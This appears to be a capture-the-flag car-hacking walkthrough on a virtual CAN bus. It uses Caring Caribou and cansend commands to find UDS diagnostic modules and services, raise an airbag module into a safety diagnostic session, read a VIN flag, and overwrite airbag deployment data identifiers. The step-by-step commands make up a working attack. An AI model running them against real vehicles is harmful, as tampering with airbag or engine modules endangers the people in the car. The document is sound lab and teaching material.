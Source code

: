Perform an initial discovery with caring caribou $python3 cc.py uds discovery

Discovery give us the following identified diagnostics:

+------------+------------+<br>
| CLIENT ID | SERVER ID |<br>
+------------+------------+<br>
| 0x00000620 | 0x00000520 |<br>
| 0x00000622 | 0x00000522 |<br>
| 0x0000062c | 0x0000052c |<br>
| 0x000007e0 | 0x000007e8 |<br>
| 0x000007e2 | 0x000007ea |<br>
| 0x000007f1 | 0x000007f9 |<br>
+------------+------------+<br><br>

Next we can look up available services for each of the available modules shown in the list above
<br>
As an example for this recon walkthrough we will follow up only on the last module from the list 0x7f1 and we perform a discovery of services
<br>
$python3 cc.py uds services 0x7f1 0x7f9
<br>
Supported service 0x10: DIAGNOSTIC_SESSION_CONTROL<br>
Supported service 0x11: ECU_RESET<br>
Supported service 0x22: READ_DATA_BY_IDENTIFIER<br>
Supported service 0x27: SECURITY_ACCESS<br>
Supported service 0x2e: WRITE_DATA_BY_IDENTIFIER<br>
Supported service 0x3e: TESTER_PRESENT
<br><br>
Next we can perform a discovery of subfunctions on 0x22 READ_DATA and also on 0x2e WRITE_DATA, the rest of the services are standard and respond as defined for UDS
<br>
$python3 cc.py dcm subfunc 0x7f1 0x7f9 0x22 2 3
<br>
Sub-function 11 11<br>
Sub-function f1 90<br>
Sub-function fa 00<br>
Sub-function fa 01<br>
Sub-function fa 02<br>
Sub-function fa 06<br>
<br>
From the list above we can see the subfunctions FA 00 to FA 06 which are subfunctions reserved for Airbag Deployment Data (see reference below)<br>https://piembsystech.com/data-identifiers-did-of-uds-protocol-iso-14229/
<br><br>
Once we have a list of subfunctions we could read the data out and also we could write data in
<br>
Keeping in mind that this is an airbag module before reading or writing is permitted the diagnostic session should be raise from default session 0x01 to Safety system Diagnostic system session 0x04
<br>$cansend vcan0 7f1#021004 50 04 00 FF 00 FF
<br><br>
We get a positive response of the session changed and we can now execute a subfunction discovery on 0x2e WRITE_DATA service<br>
$python3 cc.py dcm subfunc 0x7f1 0x7f9 0x2e 2 3<br>
Sub-function 11 11<br>
Sub-function f1 90<br>
Sub-function fa 00<br>
Sub-function fa 01<br>
Sub-function fa 02<br>
Sub-function fa 06<br>
<br>
now let's read the VIN number as we already know the subfunction F1 90 has been identified as available as part of 0x22 service in a seperate terminal run the isotprecv command $isotprecv vcan0 -s 7f1 -d 7f9
<br>
$cansend vcan0 7f1#0322f190 response: 62 F1 90 01 31 46 4C 41 47 56 49 4E 53 52 53 34 32 30 36 39 30
<br>
we convert the hex to ascii $echo "31464c414756494e535253343230363930" | xxd -r -p 1FLAGVINSRS420690
<br>
we should be able to read and write as well, let's try it with subfunction FA 06 we read it first $cansend vcan0 7f1#0322fa06 62 FA 06 01 01 01
<br>
Let's now try to write data $cansend vcan0 7f1#062efa06000000 6E FA 06
<br>
and read it again to verify $cansend vcan0 7f1#0322fa06 62 FA 06 00 00 00
<br>
Success
<br><br><br>
![image](https://github.com/IvanGranero/car-hacking/assets/47937620/015899a5-38f1-46a2-bdb7-428555ff6f9f)
<br><br>
This walkthrough only traverses one of the many possible paths to do recon on the different modules and services available for a complete recon all the remaining modules and services within the modules plus subfuntions would have to be discovered and played with.
<br>
Just to give another quick example if we do a service discovery on module 7e0:
<br><br>
Supported service 0x01: Unknown service<br>
Supported service 0x04: Unknown service<br>
Supported service 0x09: Unknown service<br>
Supported service 0x10: DIAGNOSTIC_SESSION_CONTROL<br>
Supported service 0x11: ECU_RESET<br>
Supported service 0x22: READ_DATA_BY_IDENTIFIER<br>
Supported service 0x23: READ_MEMORY_BY_ADDRESS<br>
Supported service 0x27: SECURITY_ACCESS<br>
Supported service 0x28: COMMUNICATION_CONTROL<br>
Supported service 0x2e: WRITE_DATA_BY_IDENTIFIER<br>
Supported service 0x2f: INPUT_OUTPUT_CONTROL_BY_IDENTIFIER<br>
Supported service 0x3e: TESTER_PRESENT<br>
Supported service 0xba: Unknown service
<br><br>
with the above information we can either do a dump_dids o subfunction search, the 0x2f would be a very interesting service to play with. as a hint this module also contains a flag by reading the VIN. Have fun!
